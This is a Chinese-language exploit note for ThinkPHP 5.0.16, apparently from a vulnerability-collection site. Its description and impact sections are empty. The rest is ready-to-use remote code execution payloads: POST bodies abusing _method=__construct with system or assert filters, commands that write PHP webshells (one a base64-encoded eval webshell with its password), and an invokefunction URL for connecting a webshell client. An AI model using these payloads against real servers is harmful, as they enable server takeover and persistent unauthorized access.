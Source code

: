 Thinkphp 5.0.16
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> https://www.0-sec.org/?s=index/index

    post

    s=whoami&_method=__construct&method=POST&filter[]=system
    aaaa=whoami&_method=__construct&method=GET&filter[]=system
    _method=__construct&method=GET&filter[]=system&get[]=whoami
    c=system&f=calc&_method=filter

> 写shell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

> 有captcha路由时无需debug=true
>
> https://www.0-sec.org/?s=captcha/calc

    POST 

    _method=__construct&filter[]=system&method=GET

> 写shell

    post

    s=file_put_contents('/绝对路径/test.php',base64_decode('PD9waHAgJHBhc3M9JF9QT1NUWydhYWFhJ107ZXZhbCgkcGFzcyk7Pz4'))&_method=__construct&filter=assert    

    密码aaaa

> 直接菜刀连

    http://wwww.0-sec.org/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1])
